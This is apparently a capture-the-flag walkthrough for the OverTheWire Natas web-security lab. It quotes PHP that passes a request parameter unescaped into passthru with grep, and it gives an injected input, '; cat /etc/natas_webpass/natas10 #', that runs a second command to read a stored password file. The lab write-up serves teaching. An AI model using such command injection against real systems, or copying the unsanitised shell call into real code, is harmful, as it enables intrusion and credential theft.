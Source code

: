 ## Level 10

**URL**: [Level 9](http://natas9.natas.labs.overthewire.org/)

 1. [View sourcecode](http://natas9.natas.labs.overthewire.org/index-source.html)
	 ``` php
	   $key = "";  
		if(array_key_exists("needle", $_REQUEST)) {  
			$key = $_REQUEST["needle"];  
		}  
		if($key != "") {  
			passthru("grep -i $key dictionary.txt");  
		}
	```
2. According to the following line, we can execute commands in web server:
	 ``` 
	 passthru("grep -i $key dictionary.txt");
	 ```
	 	 
 3. **All passwords are stored in /etc/natas_webpass/**. E.g. the password for natas5 is stored in the file /etc/natas_webpass/natas5 and only readable by natas4 and natas5.
4. Execute the following command:
	```
	; cat /etc/natas_webpass/natas10 #```